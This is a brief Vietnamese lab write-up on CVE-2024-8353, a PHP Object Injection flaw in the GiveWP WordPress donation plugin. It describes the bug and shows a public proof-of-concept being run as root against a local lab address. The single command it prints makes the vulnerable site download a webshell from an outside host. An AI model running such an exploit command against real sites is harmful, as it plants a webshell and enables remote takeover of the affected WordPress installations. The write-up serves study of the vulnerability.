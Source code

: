 ![alt text](image-11.png)

Phiên này plugin thật sự tồn tại lỗ hổng với mức điểm đánh giá nghiêm trọng là 10.0
Mô tả lỗ hổng : 
"Plugin GiveWP – Donation Plugin and Fundraising Platform dành cho WordPress dễ bị tấn công PHP Object Injection (chèn đối tượng PHP) trong tất cả các phiên bản đến và bao gồm 3.16.1, thông qua việc giải mã dữ liệu đầu vào không đáng tin cậy từ một số tham số như 'give_title' và 'card_address'. Điều này cho phép kẻ tấn công chưa xác thực chèn một đối tượng PHP. Sự hiện diện bổ sung của một chuỗi POP cho phép kẻ tấn công xóa các tệp tùy ý và đạt được việc thực thi mã từ xa. Về cơ bản, đây là cùng một lỗ hổng như CVE-2024-5932, tuy nhiên, người ta đã phát hiện ra rằng sự hiện diện của stripslashes_deep trên user_info cho phép bỏ qua kiểm tra is_serialized.

### Khai Thac
Ta tìm được POC khai thác 
Đọc hiểu lỗ hổng bla bla  ta khai thác :)

https://github.com/EQSTLab/CVE-2024-8353?tab=readme-ov-file

```bash
┌──(venv)─(root㉿lyquockhanh)-[~/BTLKTXM/CVE-2024-8353]
└─# python3 CVE-2024-8353.py -u http://192.168.5.136/index.php/donations/givewp-donation-form/ -c "curl -O https://rlaaudrb1104.github.io/test_webshell.php"
```
![alt text](image-12.png)
